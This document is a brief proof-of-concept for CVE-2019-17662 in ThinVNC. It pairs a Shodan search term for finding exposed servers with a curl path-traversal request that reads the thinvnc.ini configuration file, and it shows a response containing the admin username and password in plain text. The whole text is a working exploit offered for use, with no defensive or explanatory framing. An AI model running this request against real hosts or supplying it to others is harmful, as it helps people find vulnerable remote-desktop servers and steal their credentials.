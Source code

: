 ## CVE-2019-17662
### Shodan dork: <br/>
    "ThinVNC"

	  
### POC:
    curl -k -X 'GET' "http://victim_ip_address:port/a/\../\../thinvnc.ini"
	  
    Response:
    [Authentication]
    Unicode=0
    User=admin
    Password=admin
    Type=Digest
    [Http]
    Port=8080
    Enabled=1
    [Tcp]
    Port=
    [General]
    AutoStart=1
